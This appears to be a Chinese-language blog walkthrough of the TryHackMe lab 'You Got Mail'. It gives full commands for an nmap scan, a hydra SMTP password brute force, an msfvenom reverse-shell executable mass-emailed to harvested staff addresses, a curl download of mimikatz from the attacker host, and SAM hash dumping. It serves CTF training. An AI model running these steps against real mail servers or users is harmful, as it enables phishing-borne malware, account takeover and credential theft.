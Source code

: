 ```yaml
---
title: You Got Mail
subtitle:
date: 2025-03-14T12:27:45+08:00
slug: c247f47
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - TryHackMe
categories:
  - TryHackMe
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

先查看题目给出的网站

![](images/667c671cc1a91a091bfd34d6b4aa338e.png)
在Our Team页面发现一些邮箱，根据题目内容可能和题目有关

![](images/d7e9da3c9f4fc60a659357cf17d03700.png)

```
root㉿T1ngWin vim email.txt

fstamatis@brownbrick.co
pcathrine@brownbrick.co
tchikondi@brownbrick.co
lhedvig@brownbrick.co
wrohit@brownbrick.co
oaurelius@brownbrick.co
```

没什么思路了，先查看一下端口吧
nmap扫描发现只有一些邮件服务和一些Winodws服务开放

``` Shell
root@ip-10-10-154-154:~# nmap -T4 -n -sC -sV -Pn -p- 10.10.84.228
Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-13 18:48 GMT
Stats: 0:01:59 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 52.63% done; ETC: 18:50 (0:00:32 remaining)
Nmap scan report for 10.10.84.228
Host is up (0.00030s latency).
Not shown: 65516 closed ports
PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP, 
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY 
110/tcp   open  pop3          hMailServer pop3d
|_pop3-capabilities: USER UIDL TOP
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open  imap          hMailServer imapd
|_imap-capabilities: OK CHILDREN IDLE NAMESPACE IMAP4rev1 RIGHTS=texkA0001 IMAP4 CAPABILITY completed SORT ACL QUOTA
445/tcp   open  microsoft-ds?
587/tcp   open  smtp          hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP, 
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY 
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: BRICK-MAIL
|   NetBIOS_Domain_Name: BRICK-MAIL
|   NetBIOS_Computer_Name: BRICK-MAIL
|   DNS_Domain_Name: BRICK-MAIL
|   DNS_Computer_Name: BRICK-MAIL
|   Product_Version: 10.0.17763
|_  System_Time: 2025-02-13T18:50:40+00:00
| ssl-cert: Subject: commonName=BRICK-MAIL
| Not valid before: 2025-02-12T18:45:16
|_Not valid after:  2025-08-14T18:45:16
|_ssl-date: 2025-02-13T18:50:45+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 02:ED:BB:0E:C7:39 (Unknown)
Service Info: Host: BRICK-MAIL; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: BRICK-MAIL, NetBIOS user: <unknown>, NetBIOS MAC: 02:ed:bb:0e:c7:39 (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-02-13T18:50:39
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 142.61 seconds
```

好像并没有什么用，尝试根据网站创建自定义密码

``` Shell
cewl --lowercase https://brownbrick.co/ > passwords.txt
```

hydra测试邮箱登录密码（nmap扫描得到smtp端口为587）

``` Shell
hydra -L email.txt -P password.txt 10.10.84.228 smtp -s 587 -t 16
```



![](images/c8608fafe5c0b2c4789458a04b763577.png)获得邮箱账号登录密码，尝试利用反向shell创建可执行文件

``` Shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.200.215 LPORT=443 -f exe -o shell.exe
```

使用已经获取账户密码的用户发送可执行文件到其他用户

``` Shell
for email in $(cat email.txt); do sendemail -f "lhedvig@brownbrick.co" -t "$email" -u "test" -m "test" -a shell.exe -s 10.10.84.228:25 -xu "lhedvig@brownbrick.co" -xp "bricks"; done 
```

发送成功

![](images/7b55538990b1f3b03cf57a415715f964.png)
同时监听443端口

``` Shell
nc -lnvp 443
```



![](images/29a41743e330c4d6afae6484bc4984c0.png)
发现此时的权限是wrohit，尝试获取桌面flag

``` Shell
dir C:\Users\wrohit\Desktop
type C:\Users\wrohit\Desktop\flag.txt
```



![](images/6eb99a9624e7d686bb3be955787bcfbc.png)
接下来尝试查找wrohit用户的密码，此时该用户是位于Administrators下的，所以只需要把mimikatz.exe上传即可，上传至ProgramData文件夹内

``` Shell
curl http://10.10.200.215:8888/mimikatz.exe -o mimikatz.exe
```

利用mimikatz获取哈希密码

``` Shell
.\mimikatz.exe "token::elevate" "lsadump::sam" "exit"
```



![](images/1c7a8fbb3cee2b5e8f7c1d8b2db34f4e.png)
在线平台破解哈希即可 https://crackstation.net/

![](images/fcb42c276516424eb3a2f9bdfdb023ee.png)
最后任务是找到hMailServer Administrator Dashboard
该密码存在在在`C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI`
读取文件即可

``` Shell
type "C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI"
```



![](images/f9c9c1df8587bd0d2a24ceca819a5c18.png)
破解哈希

![](images/714215a672e9cb9b2449ccddce01fdd8.png)
结束



![](images/9304f15558c8f132b296223569b71418.png)

